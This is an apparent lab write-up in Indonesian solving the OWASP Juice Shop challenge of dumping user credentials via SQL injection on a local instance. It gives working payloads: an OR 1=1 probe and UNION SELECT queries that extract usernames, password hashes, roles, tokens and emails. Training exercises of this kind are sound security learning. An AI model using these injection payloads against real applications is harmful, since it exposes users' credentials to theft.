 Retrieve a list of all user credentials via SQL Injection 
https://juice-shop.herokuapp.com/#/score-board?categories=Injection 

Hal-hal yang dilakukan: 
1. Mencari tahu bagaimana bisa melihat semua nya dengan query 127.0.0.1:3000/rest/products/search?q=' OR 1=1 /**/

2. Mencari semua user dengan query 127.0.0.1:3000/rest/products/search?q=test')) UNION SELECT username, password, role, deletedAt, isActive, createdAt, id, deluxeToken, profileImage FROM USERS-- 

3. Mencari semua user secara lengkap beserta dengan email yang ada 127.0.0.1:3000/rest/products/search?q=test')) UNION SELECT username, password, role, deletedAt, isActive, createdAt, id, email, profileImage FROM USERS--

Bukti 
![alt text](assets/User.png)

![alt text](assets/User2.png)

![alt text](assets/User3.png)

#### Berhasil 